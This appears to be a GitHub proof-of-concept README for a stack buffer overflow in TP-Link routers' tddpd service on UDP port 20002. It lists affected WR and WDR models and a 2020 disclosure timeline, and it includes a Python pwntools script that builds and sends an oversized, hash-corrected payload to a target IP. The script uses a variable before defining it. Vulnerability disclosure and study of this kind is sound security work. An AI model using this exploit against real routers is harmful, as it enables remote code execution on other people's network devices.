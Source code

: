 # TP-LINK-POC_2

TP-Link router have a stack overflow in tddpd server running via port 20002.

Any user can get remote code execution through LAN, this vulnerability currently affects the latest versions of WR、WDR series, which include WDR7400,WDR7500,WDR7660,WDR7800,WDR8400,WDR8500,WDR8600,WDR8620,WDR8640,WDR8660,WR880N,WR886N,WR890N,WR890N,WR882N,WR708N,WR842N,WR802N,WR710N,WR706N,WR702N etc. It affects the linux system and vxworks system. we believe there are much more models suffered from this vuln.

## Vulnerability description 

This vulnerability happen when tddpd server receive data by usinng recvfrom `udp port 20002`.Then with a series data processing,it arrive `memcopy`,we can contorl `a1` and `v5`that It lead to a stack buffer overflow to execute arbitrary code.

**It's different from CVE-2020-28877**

![](./poc.png)

## poc

Refer to this video: [poc_video](./poc.mkv)

**poc**

```
#!/usr/bin/env python
# coding=utf-8
from pwn import *
if len(sys.argv)<3:
    print "Usage exp.py <target ip> <local ip>"
    exit(-1)
def critical(msg):
    sys.stdout.write('[\x1B[31m*\x1b[0m] ')
    for i in msg:
        sys.stdout.write(i)
        sleep(0.05)
    sleep(1)
def log(msg):
    sys.stdout.write('[\x1B[32m*\x1b[0m] ')
    sys.stdout.write(msg)
#REMOTE_IP="192.168.1.1"
REMOTE_IP=sys.argv[1]
LOCAL_IP=sys.argv[2]
#LOCAL_IP="192.168.1.101"
REMOTE_PORT=20002
LOCAL_LISTEN_PORT=8080
context.log_level='error'
context.endian='big'
context.arch='mips'
data+='\x00\x00\x00\x01'*16
data+=p32(0xcafebabe)*0x10000 # it can lead to buffer flowover
len2=len(data)
len1=4+len2
hash=0x5a6b7c8d

payload=  b'\x01\x00'+p16(2)+p16(len1)+b'\x21\x00'
payload+= p32(0xdeadbeef)+p32(0x5a6b7c8d)
payload+= p16(1)+p16(len2)+data

kk=0
for i in range(len(payload)//4):
    kk=(kk+u32(payload[4*i:4*i+4]))%0x100000000
info("hash 0x%x"%kk)
payload=  b'\x01\x00'+p16(2)+p16(len1)+b'\x21\x00'
payload+= p32(0xdeadbeef)+p32(kk)
payload+= p16(1)+p16(len2)+data
p=remote(REMOTE_IP,REMOTE_PORT,typ='udp')
sleep(1)
for i in range(10):
    sys.stdout.write('.')
    sleep(1)
print ''
p.send(payload)

```

## Timeline

2020.10.24 show in GeekPwn

2020.12.01 report to CVE and TP-Link

2020.12.12 TP-Link reply and fix it
